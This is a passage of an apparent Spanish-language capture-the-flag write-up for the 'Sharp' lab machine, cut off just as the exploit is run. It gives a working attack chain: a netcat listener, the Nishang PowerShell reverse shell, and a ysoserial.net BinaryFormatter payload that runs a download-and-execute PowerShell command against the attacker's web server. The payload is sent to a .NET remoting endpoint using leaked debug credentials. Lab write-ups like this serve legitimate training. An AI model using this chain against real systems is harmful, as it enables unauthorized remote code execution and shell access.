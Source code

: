 ```text
1. Un servidor web (con Python resolvemos : python3 -m http.server 8080)
2. Netcat, en este caso estare utilizando nc64.exe : nc64.exe -nlvp 4444
3. El reverse shell a utilizar sera el de Nishang, editando el archivo y agregar al final : Invoke-PowerShellTcp -Reverse -IPAddress [Nuestra IP] -Port [Nuestro puerto en escucha]
4. Dado que la el parametro 'raw' nos permite usar "Send a raw serialized object to the service" :), usaremos Ysoserial de la siguiente manera : ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('http://nuestraIP/Invoke-PowerShellTcp.ps1')"
5. Nuestro request  seria de esta forma: ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123! raw" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw [nuestro payload generado en Ysoserial]
```
Podemos encontrar la ultima version de Ysoserial aqui:


> * [https://github.com/pwntester/ysoserial.net/releases](https://github.com/pwntester/ysoserial.net/releases)

El reverse shell de Nishang aqui:
> * [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

Generamos nuestro payload con Ysoserial:

![](/assets/img/Linux/Sharp/ysoserial_01.png)

Ponemos a la escucha nuestro servidor web con Python:

![](/assets/img/Linux/Sharp/python_01.png)

Tenemos a netcat a la escucha y ejecutamos el exploit:
